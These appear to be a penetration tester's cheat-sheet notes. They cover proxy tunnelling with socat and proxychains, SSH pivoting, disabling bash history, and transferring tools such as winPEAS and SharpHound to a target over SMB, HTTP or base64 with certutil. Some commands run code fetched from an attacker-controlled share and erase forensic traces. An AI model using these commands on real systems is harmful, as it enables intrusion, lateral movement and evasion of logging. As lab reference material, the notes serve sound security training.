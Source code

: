 ## Find the meaning of unknown error codes with certutil:
`certutil -error <error_id>`

## Access HTTPS proxy with proxychains:
Proxychains supports SOCKS4, SOCKS5 and HTTP but not HTTPS.  
Using socat to create an HTTPS tunnel between a local port and a remote proxy:  
`socat TCP-LISTEN:19999,bind=127.0.0.1,fork,reuseaddr OPENSSL:proxy.yolo.com:8000,verify=0`  
(verify=0 to bypass certificate errors, for example self-signed client certificate)  

Then in `/etc/proxychains.conf` :
`http 127.0.0.1 19999`

From <https://github.com/rofl0r/proxychains-ng/issues/337>  
  
## SSH Pivoting/Tunneling 
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)  
     
  
## Temporarily turn off bash history:  
`unset HISTFILE`  
`set +o history`   
  
## File transfer techniques: 
### Using SMB:  
`impacket-smbserver share .`  
Then `//10.10.14.108/share/winPEASx64.exe searchall cmd`    
  
### Using python:  
`python2 -m SimpleHTTPServer <PORT>`  
`python3 -m http.server <PORT>`  
  
### Using a compiled binary for Windows:  
`pip install pyinstaller`  
`pyinstaller web.py --onefile`  
  
`web.exe <PORT>`  
  
### Using base64 encoding:  
Attacker-side (Linux). Newlines can be trimmed on Linux using `sed` or `tr`.     
`base64 -w 0 <FILE> | xclip -selection clipboard`  
or `cat SharpHound.exe | base64 | tr -d '\n' > b64Sharphound.txt`  
    
Attacker-side (Windows). Newlines can be trimmed on Linux using `sed` or `tr`.  
`certutil -encode <FILE> tmp_file_base64.txt`  
`sed ':a;N;$!ba;s/\n//g' <FILE>`  
  
Target-side - Linux  
`echo '<BASE64_FILECONTENT>' | base64 --decode > <OUTPUT_FILE>`  
  
Target-side - Windows  
`echo <BASE64_FILECONTENT> > tmp_file_base64.txt`  
`certutil -decode tmp_file_base64.txt <OUTPUT_FILE>`  
`del tmp_file_base64.txt`  
From <https://notes.qazeer.io/general/file_transfer>    
  
